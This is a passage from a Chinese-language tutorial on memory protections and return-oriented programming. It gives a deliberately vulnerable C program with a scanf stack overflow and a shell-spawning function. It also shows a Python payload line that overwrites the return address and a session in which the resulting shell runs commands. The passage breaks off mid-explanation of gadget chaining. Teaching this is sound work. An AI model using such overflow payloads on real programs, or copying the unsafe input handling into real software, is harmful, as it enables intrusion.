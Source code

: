 可见每次运行，这三个动态链接库映射到进程`aslr_test`中的位置都是变化的。

### 4. ROP 攻击
在操作系统和编译器的保护下，程序的栈是不可运行的、栈的位置是随机的，增大了栈溢出攻击的难度。但如果程序的加载位置是固定的、或者程序中存在加载到固定位置的可执行代码，攻击者就可以利用这些固定位置上的代码来实施他的攻击。

考虑下面的代码，其中含有一个`borrowed`函数，作用是打开一个`shell`终端。

    #include <stdio.h>
    #include <unistd.h>

    void borrowed() {
        execl("/bin/sh", NULL, NULL);
    }

    int main() {
        char name[64];
        printf("What's your name?");
        scanf("%s", name);
        printf("Hello, %s!\n", name);
        return 0;
    }

将以上代码另存为`victim.c`编译，并提取汇编码到`victim.asm`中，如下：

    $ gcc -o victim victim.c
    $ objdump -d victim -M intel > victim.asm

打开`victim.asm`可以查到`borrowed`函数的地址为`0x4050b6`。因此，若攻击者利用栈溢出将main函数的返回地址改写为`0x4050b6`，则main函数返回时会转到`borrowed`函数运行，打开一个`shell`终端，后面就可以利用终端干很多事情了。
现在来试一试吧：

    $ python -c 'print "\x00"*72+"\xb6\x05\x40\x00\x00\x00\x00\x00"' > shellcode
    $ cat shellcode - | ./victim 
    What's your name?Hello, !
    ls
    shellcode  victim  victim.asm  victim.c
    mkdir xxx
    ls
    shellcode  victim  victim.asm  victim.c  xxx
    rmdir xxx
    ls
    shellcode  victim  victim.asm  victim.c

可以看出终端被成功的打开了，并运行了`ls、mkdir、rmdir`命令。

注意以上攻击命令中`cat shellcode - | ./victim`的`-`是不能省略的，否则终端打开后就会立即关闭。

这个例子表明，攻击者可以利用程序自身的代码来实施攻击，从而绕开栈不可执行和栈位置随机化的防护。这个程序是一个特意构造的例子，实际的程序中当然不太可能埋一个`borrowed`函数这样的`炸弹`来等着人来引爆。但是，攻击者可以利用程序自身的、没有任何恶意的`代码片段`来组装出这样的`炸弹`来，这就是`ROP`攻击。

ROP攻击全称为`Return-oriented programming`，在这种攻击中，攻击者先搜索出程序自身中存在的`跳板指令（gadgets）`，然后将一些跳板指令串起来，组装成一段完整的攻击程序。

跳板指令就是以`ret`结尾的指令（也可以是以`jmp、call`结尾的指令），如`mov rax, 1; ret | pop rax; ret`。那如何将跳板指令串起来？

假如程序中在`0x1234 | 0x5678 | 0x9abc`地址处分别存在三段跳板指令`mov rax, 10; ret | mov rbx, 20; ret | add rax, rbx; ret`，且当前的`rip`指向的指令是`ret`，如果将`0x1234 | 0x5678 | 0x9abc`三个地址的数值放到栈上，如下：
